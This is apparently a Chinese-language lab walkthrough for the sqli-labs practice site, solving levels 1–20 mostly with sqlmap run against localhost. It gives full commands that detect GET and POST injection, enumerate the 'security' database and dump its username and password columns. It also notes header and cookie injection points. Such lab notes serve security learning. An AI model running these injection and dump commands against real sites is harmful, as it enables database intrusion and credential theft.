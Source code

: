 ```
写在最前：基本上就全用sqlmap，手动注入搞懂原理就ok了，所以说写的比较草率，btw这个新版本php要让我把所有sql函数改成sqli的才能运行。神
```


# Less1
提示输入id、数字

打开powershell,cd
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --batch
```
确定是单引号字符注入，按照流程来

```
 python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --dbs --batch
 python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" -D security --tables --batch
 python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" -D security -T users --columns --batch

  python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" -D security -T users -C "username,password" --dump --batch
```

***done***

# Less2-10

貌似都是一样的get注入


# Less11-17
看到了不一样的，这里有两个表单了，~~于是我们打开burps..~~，随便输入几个数值，然后换特殊字符，发现报错。于是应该是post注入

检查页面源码，发现post应该是三元素：uname和passwd，以及submit

直接开爆

```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-11/" --data "uname=1&passwd=1&submit=Submit" --batch
```

果然是一个post类型，接下来又是爆所有库，找security，爆表找user，爆列，和上述一样，不再赘述。


其他都是一样的，唯一需要注意的是less17要调高一下risk

# less 18

发现记录了我的ip，观察代码，发现user-agent这一块，有个传参和拼接，注意到注入点应该在这里


~~但是我搞了半天都没修好，这道题没办法掠过算了。。。~~

# less 19-20

抓包改head，看cookie，然后照常使用sqlmap直接爆破

